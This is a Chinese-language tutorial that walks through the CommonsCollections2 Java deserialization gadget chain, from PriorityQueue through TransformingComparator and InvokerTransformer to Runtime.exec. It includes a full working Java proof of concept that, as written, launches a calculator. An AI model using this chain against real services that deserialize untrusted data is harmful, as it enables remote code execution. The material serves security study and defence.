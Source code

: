 # CommonsCollections2利用链分析

## 前言

`CommonsCollections2`利用链利用环境如下：

```
CommonsCollections 4.0
JDK 版本暂无限制
需要 javassist 依赖
```

可以看到，在 cc2 是针对`CommonsCollections 4.0`新版本的利用链，环境配置 Maven 依赖如下（需要 javassist 的原因在下文）：
![image-20221009105637369](images/image-20221009105637369.png)

利用链如下：
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                        		ConstantTransformer.transform()
														InvokerTransformer.transform()
																Method.invoke()
																		Class.getMethod()
														InvokerTransformer.transform()
																Method.invoke()
																		Runtime.getRuntime()
														InvokerTransformer.transform()
																Method.invoke()
																		Runtime.exec()
```

我们就跟着链子逐步探究一番。

## PriorityQueue

看`PriorityQueue#readObject()`方法源码
![image-20221009112426049](images/image-20221009112426049.png)

可以看到对传入的对象输入流`s`进行反序列化并传入到`queue`数组中，说明`s`是经过序列化后的数据，那么接着看`writeObject()`序列化方法
![image-20221009112818375](images/image-20221009112818375.png)

其中对`queue`数组遍历进行序列化，而`queue`是`PriorityQueue`类的一个属性，那么我们可以通过反射进行控制，所以`queue`成为可控点。
![image-20221009112947079](images/image-20221009112947079.png)

前面可以看到`readObject()`方法最后还调用了`heapify()`方法，我们接着跟`heapify()`
![image-20221009113211379](images/image-20221009113211379.png)

`headify()`方法进行循环并调用了`siftDown()`方法，其中第二个参数`queue`是可控点，继续跟进`siftDown()`源码
![image-20221009113328581](images/image-20221009113328581.png)

这里做了一个判断，如果`comparator`不为空，则进入`siftDownUsingComparator(k, x)`方法。
![image-20221009113434631](images/image-20221009113434631.png)

这里`comparator`也是`PriorityQueue`类的一个属性，因此也可以通过反射进行控制。此外，因为前面的`queue`是可控的，所以这里`siftDownUsingComparator(k, x)`的`x`也是可控的。

继续跟进`siftDownUsingComparator()`方法源码
![image-20221009113836865](images/image-20221009113836865.png)

可以看到这里调用到了`comparator.compare()`方法，而`comparator`是可控的，并且`comparator(x,c)`中的`x`也是可控的。

根据利用链可以看到`comparator`被赋值为`TransformingComparator`，接下来到了`TransformingComparator.compare()`方法。

## TransformingComparator

跟进`TransformingComparator#compare()`方法
![image-20221009120104239](images/image-20221009120104239.png)

可以看到会执行`this.transformer.transform()`方法，并且`this.transformer`在前面构造参数方法的时候进行赋值，因此也是可控点。这里可以根据前面学习的`CommonsCollections1`开始构造 POC 了。

在构造 POC 前，发现`ysoserial`中的`queue`添加了两个元素
![image-20221009121010160](images/image-20221009121010160.png)

这是为啥捏？回去重新跟一下，发现原来是要满足在`heapify()`方法的操作，如果只有一个元素则`size`为 1，最后经过无符号右移动 1 位并且减 1 ，则结果为 -1 将无法进入`siftDown()`方法
![image-20221009121552839](images/image-20221009121552839.png)

## 构造 POC

根据以上学习，利用链已经清晰明了，构造 POC
```java
package com.serialize;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections2 {
    public static void main(String[] args) throws Exception{
        CommonsCollections2 commonsCollections2 = new CommonsCollections2();
        commonsCollections2.serialize();
        commonsCollections2.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        Field comparator = priorityQueue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, transformingComparator);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

## ysoserial中的利用链

在`ysoserial`中的利用链则和前面我们所构造的有所不同，gadget 如下所示：
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

